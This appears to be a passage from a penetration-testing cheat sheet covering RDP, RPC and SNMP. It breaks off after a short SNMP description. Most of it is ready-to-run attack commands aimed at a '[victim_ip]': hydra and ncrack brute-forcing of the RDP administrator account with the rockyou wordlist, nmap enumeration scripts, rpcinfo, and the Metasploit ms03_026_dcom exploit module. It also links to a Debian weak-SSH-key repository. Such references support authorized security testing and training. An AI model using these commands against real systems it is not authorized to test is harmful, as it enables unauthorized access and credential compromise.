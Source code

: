 - https://github.com/g0tmi1k/debian-ssh

--------------------------------------------------------------------------------------------------------------------------------------

# RDP

--------------------------------------------------------------------------------------------------------------------------------

#### Connect to remote desktop 
```
rdesktop -g 1440x900 -u user_login -p user_pass [victim_ip]
```

#### rdp nmap scan
```
nmap -p 3389 --script rdp-ntlm-info [victim_ip]
```

#### bruteforce rdp credentials
```
hydra -t 4  -l administrator -P /usr/share/wordlists/rockyou.txt rdp://[victim_ip]
ncrack -vv --user administrator -P password-file.txt rdp://[victim_ip]
```

--------------------------------------------------------------------------------------------------------------------------------------

# rpc

--------------------------------------------------------------------------------------------------------------------------------

```
rpcinfo -p [victim_ip]
```

#### rpc nmap scan
```
nmap [vitim_ip] --script msrpc-enum
```

#### rpc metasploit scan
```
msf> use exploit/windows/dcerpc/ms03_026_dcom
```

--------------------------------------------------------------------------------------------------------------------------------------

# SNMP

--------------------------------------------------------------------------------------------------------------------------------

#### SNMP_Description

SNMP is based on UDP, a simple, stateless protocol, and therefore susceptible to IP spoofing and replay attacks. SNMP information and credentials can be easily intercepted over a local network.
